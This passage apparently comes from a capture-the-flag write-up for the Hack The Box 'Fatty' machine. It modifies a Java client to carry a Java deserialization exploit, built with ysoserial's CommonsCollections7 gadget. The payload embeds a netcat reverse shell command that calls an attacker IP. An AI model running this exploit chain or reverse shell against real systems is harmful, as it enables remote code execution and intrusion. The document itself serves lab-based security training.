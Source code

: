 ```java
        catch (IOException e2) {
          JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
        }



        textPane.setText(response);
      }
    });
```

And modify the `changePW` method to not encode the input and directly pass our base64 encoded payload `src/htb/fatty/client/methods/Invoker.java`

```java
public String changePW(String username2, String newPassword) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {  }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
      return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    String username = "qtc";
    User user = new User(username, newPassword);

    this.action = new ActionMessage(this.sessionID, "changePW");
    this.action.addArgument(new String(newPassword));
    sendAndRecv();
    if (this.response.hasError()) {
      return "Error: Your action caused an error on the application server!";
    }
    return this.response.getContentAsString();
  }
```

At this point we were able to pass a base64 encoded payload during password change, but we still need to find a proper payload.

So at `pom.xml` in server source we saw `commons-collections` 3.1 library is used.

```markup
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

Then used `ysoserial` java app from github to create the payload with a reverse shell using CommonCollections7 and encoded in base64.

```bash
$ /usr/lib/jvm/java-8-openjdk-amd64/bin/java -jar ~/Downloads/ysoserial-master-SNAPSHOT.jar CommonsCollections7 "nc -nv 10.10.14.31 4443 -e /bin/sh" > payload &&  base64 -w0 payload
rO0ABXNyABNqYXZhLnV0aWwuSGFzaHRhYmxlE7sPJSFK5LgDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/---------------+AC0AAAACeA==
```
